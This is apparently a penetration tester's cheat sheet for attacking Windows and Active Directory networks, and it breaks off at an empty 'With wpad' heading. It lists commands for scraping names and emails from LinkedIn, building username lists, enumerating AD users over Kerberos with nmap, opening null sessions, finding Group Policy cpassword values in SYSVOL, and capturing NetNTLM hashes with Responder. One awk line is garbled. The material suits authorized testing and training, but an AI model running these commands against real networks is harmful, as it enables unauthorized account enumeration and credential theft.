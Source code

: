 Regex to extract emails

`grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b"`

### Extract from burp 

`cat linkedin.txt | tr , '\n' | sed 's/\”//g' | awk '/"title":{"textDirection":"FIRST_STRONG"/{getline; print}'`

### Change format to b.lah

`awk '=FS tolower(substr(,1,1)$NF)' linkedin-user-list.txt | awk '{ print   }'`

`awk '{print $0,tolower(substr($1,1,1)$NF)}' names.txt`

### Check usernames against AD:

Handy if you have generated a list from linkedin or a list of usernames.

`nmap -p 88 1.1.1.1 --script krb5-enum-users --script-args krb5-enum-users.realm="DOMAIN"`

username list is located at `/usr/local/share/nmap/nselib/data/usernames.lst` in Kali

### Null sessions

Still works on infra that was upgraded from 2k, 2k3.

`net use \\IP_ADDRESS\ipc$ "" /user:""`

Use enum4linux, enum or Dumpsec following the null session setup.

### GPP 

https://bitbucket.org/grimhacker/gpppfinder/src/master/

`findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml`

## situational awareness

https://github.com/dafthack/HostRecon

Privesc checks:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

## Network Attacks 

### Responder

Grab NetNTLM hashes off the network

#### Without wpad:

`responder -I eth0`

#### With wpad:
